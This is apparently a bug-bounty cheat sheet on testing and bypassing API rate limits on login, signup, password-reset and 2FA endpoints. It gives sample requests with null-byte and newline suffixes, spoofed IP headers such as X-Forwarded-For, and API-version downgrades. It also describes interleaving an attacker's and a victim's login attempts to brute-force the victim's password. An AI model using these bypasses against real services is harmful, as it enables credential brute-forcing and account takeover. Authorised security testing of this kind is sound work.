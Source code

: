 ## RATE LIMIT FLAWS
This flaw leveraged by malicious actors to perform DDoS, brute force, and bot attacks on APIs. Although it's more than that.
##### NOTE: Some organisation `keep rate-limit bug as OOS`, So check their policy before testing.
## Rate-limit Checks
1 - Rate limit on Forget password
2 - Rate limit on Sign-up Page
3 - Rate limit on Login Page
4 - Rate limit on Invite user normal
5 - Rate limit on Invite user using MACROS
6 - Rate limit on 2FA
7 - Rate-limit on Comment and sent messages
8 - Use your own brain somewhere

## Bypass-Techniques
#### 1 - Append NULL characters at the end of the request : 
`%00, %0d%0a, %0d, %0a, %09, %0C, %20, ( )space`

    POST /signup/new/1337 HTTP/1.1
    HOST: api.target.com
    ...
    email=hacker%40gmail.com&password=12345678%00
#### 2 - Append NULL characters at the end of the Path : 
`%00, %0d%0a, %0d, %0a, %09, %0C, %20, ( )space`
`POST /profile/post/like%00 HTTP/2`

#### 3) Using Custom `HTTP headers`
	X-Originating-IP: 127.0.0.1
	X-Forwarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	X-Client-IP: 127.0.0.1
	X-Host: 127.0.0.1
	X-Forwared-Host: 127.0.0.1

---
	X-Originating-IP: 127.0.0.2
	X-Forwarded-For: 127.0.0.2
	X-Remote-IP: 127.0.0.2
	X-Remote-Addr: 127.0.0.2
	X-Client-IP: 127.0.0.2
	X-Host: 127.0.0.2
	X-Forwared-Host: 127.0.0.2
---
	X-Originating-IP: 127.0.1
	X-Forwarded-For: 127.0.1
	X-Remote-IP: 127.0.1
	X-Remote-Addr: 127.0.1
	X-Client-IP: 127.0.1
	X-Host: 127.0.1
	X-Forwared-Host: 127.0.1

#### 4 - Changing the value of `User-Agent:`
    UserAgent: 'CHANGED_USERAGENT'

#### 5 - Adding Custom `parameter` in GET request
`GET /accout/passwordreset/?test=test`

#### 6 - Change request body, (`JSON -> XML`) or vice versa
   Use Burp Extension --> `Content Type Converter`

#### 7 - Changing API version , 
`/api/v2/user/reset_pw --> /api/v1/user/reset_pw or /api/v3/user/reset_pw`

#### 8 - Bypass through Exploiting Logic flaw on Login page, 
   - Take Attacker and Victim account
   - Identify how many enough login attempts in application
   - For-eg. if application gives only 3 attempts, then
   - By using burp macros, send the attackers login request 1 time and victim login request 2 time, or alternatively 
   - If NOT blocked, Repeat the process until we get victim's password
#### 9 - Try to find `Origin IP` of the Application
   - Shodan
   - Censys
   - Visit the application with it's IP address 
   - Do your own research